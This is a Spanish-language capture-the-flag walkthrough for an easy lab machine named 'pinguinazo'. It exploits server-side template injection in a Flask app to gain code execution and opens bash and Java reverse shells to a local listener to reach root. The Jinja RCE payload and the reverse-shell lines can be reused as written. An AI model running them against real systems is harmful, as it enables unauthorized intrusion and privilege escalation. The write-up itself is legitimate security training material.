







# Máquina pinguinazo

---

DIficultad -> Fácil

---

Primero hacemos un nmap para ver puertos abiertos

```shell
nmap -p- --open -sV -sC -sS --min-rate=5000 -n -Pn 172.17.0.2
```

```shell
PORT     STATE SERVICE VERSION
5000/tcp open  http    Werkzeug httpd 3.0.1 (Python 3.12.3)
|_http-title: Pingu Flask Web
|_http-server-header: Werkzeug/3.0.1 Python/3.12.3
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Veo que hay un servidor en python en el puerto 5000.

Al acceder desde la web veo una pagina de registro



Pruebo a ver si puedo injectar html



Y en efecto puedo injectar html


Asi que es probable que se pueda hacer SSTI, compruebo con {{7 * 7}} y me da 49 asi que en efecto se puede hacer SSTI




A partir de aquí, sabiendo que es un servidor flask en python, buscando un poco me encontré como hacer RCE, poniendo esto consigues ejecutar id

```shell
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

Una vez teniendo un RCE, me mando una revshell mientras escucho en el puerto 4444

```shell
nc -lvnp
```

```shell
{{request.application.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/172.17.0.1/4444 0>&1"').read()}}
```



Con esto ya estamos dentro como pinguinazo, aqui siempre hago [Tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/#) y un sudo -l



Se puede ver que podemos ejecutar scripts de java como sudo, buscando veo que no puedo escalar directamente a root con esto pero puedo generar una revshell como root que acaba siendo lo mismo, asi que me meto a [RevShells](https://www.revshells.com/) y creo un script con una revshell en java

```java
public class shell {
    public static void main(String[] args) {
        Process p;
        try {
            p = Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/172.17.0.1/4445 0>&1");
            p.waitFor();
            p.destroy();
        } catch (Exception e) {}
    }
}
```

Meto esto en un script de java y lo ejecuto mientras que en otra ventana escucho en el puerto 4445

```shell
nc -lvnp 4445
```



Y una vez conectados a la segunda revshell acabamos la máquina siendo root.


